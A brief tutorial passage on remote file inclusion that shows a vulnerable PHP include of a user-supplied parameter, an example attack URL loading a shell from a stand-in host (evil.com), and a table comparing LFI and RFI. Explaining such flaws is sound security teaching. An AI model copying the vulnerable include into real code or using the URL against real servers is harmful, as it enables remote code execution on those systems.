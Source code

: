  **How It Works**

If an application allows remote file inclusion like this:

````php
<?php
    include($_GET['file']);
?>
````

An attacker could inject a malicious script:

````bash
http://example.com/index.php?file=http://evil.com/shell.php
````

### **LFI vs RFI – Key Differences**

| Feature          | LFI (Local File Inclusion)                   | RFI (Remote File Inclusion)          |
| ---------------- | -------------------------------------------- | ------------------------------------ |
| **Source**       | Local files on the server                    | Remote files from an external source |
| **Impact**       | Information disclosure, local code execution | Full remote code execution           |
| **Requirements** | The file must exist on the server            | `allow_url_include` must be enabled  |
| **Severity**     | High                                         | Critical                             |

![netrunner](/assets/images/netrunner.gif)